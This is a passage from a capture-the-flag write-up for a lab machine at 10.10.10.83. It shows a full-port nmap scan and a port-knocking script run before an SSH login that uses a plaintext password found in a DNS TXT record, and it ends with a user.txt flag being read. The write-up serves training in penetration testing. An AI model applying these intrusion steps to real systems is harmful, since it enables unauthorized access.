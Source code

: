     Nmap done: 1 IP address (1 host up) scanned in 15.81 seconds
    root@kali# nmap -p- -sT --min-rate 5000 10.10.10.83
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-21 21:15 EDT
    Nmap scan report for 10.10.10.83
    Host is up (0.095s latency).
    Not shown: 65531 closed ports
    PORT     STATE SERVICE
    22/tcp   open  ssh
    53/tcp   open  domain
    80/tcp   open  http
    2222/tcp open  EtherNetIP-1
    

Now we can ssh in, trying the credentials from the txt record:

    
    
    root@kali# ./open_portal_to_Hades.py && ssh prometheus@10.10.10.83
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    .
    Sent 1 packets.
    [+] Portal should be open.
    Run:
    ssh prometheus@10.10.10.83
    password: St34l_th3_F1re!
    prometheus@10.10.10.83's password:
    
    Welcome to
    
        )         (
     ( /(     )   )\ )   (
     )\()) ( /(  (()/(  ))\ (
    ((_)\  )(_))  ((_))/((_))\
    | |(_)((_)_   _| |(_)) ((_)
    | ' \ / _` |/ _` |/ -_)(_-<
    |_||_|\__,_|\__,_|\___|/__/
    
    prometheus@olympus:~$
    

### user.txt

Finally, in prometheus’ home dir, we find user.txt:

    
    
    prometheus@olympus:~$ ls
    msg_of_gods.txt  user.txt
    prometheus@olympus:~$ wc -c user.txt
    33 user.txt
    prometheus@olympus:~$ cat user.txt
    8aa18519...
    